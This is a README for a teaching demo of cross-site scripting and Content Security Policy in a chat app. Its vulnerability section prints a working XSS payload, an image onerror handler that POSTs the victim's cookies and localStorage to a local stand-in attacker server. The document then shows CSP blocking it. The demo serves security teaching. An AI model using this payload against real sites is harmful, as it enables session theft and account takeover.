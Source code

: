 # Cross-Site Scripting & Content Security Policy Demo

## Setup

Make sure you're using Node.js 10.x or greater.

Open a terminal and navigate to the project's root directory.

1. `yarn install`
2. `yarn start:server`
3. In a separate terminal (same directory): `yarn start:client`
4. In a separate terminal (same directory): `yarn start:evil`

## Demonstrate the vulnerability

1. Open the chat app at [http://localhost:4000?user=Bob](http://localhost:4000?user=Bob) in your browser window.
2. Open the chat app at [http://localhost:4000?user=Alice](http://localhost:4000?user=Alice) in an incognito/private window (to make sure cookies are not shared between the two windows).
3. Paste the following malicious message in the chat and press "Send":

```
How's it going? <img style="display:none;" src="http://url.to.file.which/not.exist" onerror="fetch('http://localhost:5000', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ localStorage: Object.entries(localStorage).map(e => `${e[0]}=${e[1]}`), cookies: document.cookie })}); alert(`I just stole your auth cookie ${document.cookie} and the contents of your localStorage ${Object.entries(localStorage).map(e => `${e[0]}=${e[1]}`)}`);">
```

4. Check the terminal that's running `evilServer.js` - You'll see both the sender (attacker) and recipient's cookies and localStorage have been stolen and logged!

## Demonstrate the fix with Content Security Policy

1. Close both chat app windows.
2. Open fixed versions at [http://localhost:4000/secure?user=Bob](http://localhost:4000/secure?user=Bob) in your browser window and [http://localhost:4000/secure?user=Alice](http://localhost:4000/secure?user=Alice) in an incognito/private window.
3. Send the malicious message again.
4. Note that although the malicious message was delivered to the recipient, the browser blocked the script execution, image loading, and inline styles. Checking the terminal running `evilServer.js` reveals that the attacker didn't receive any information.
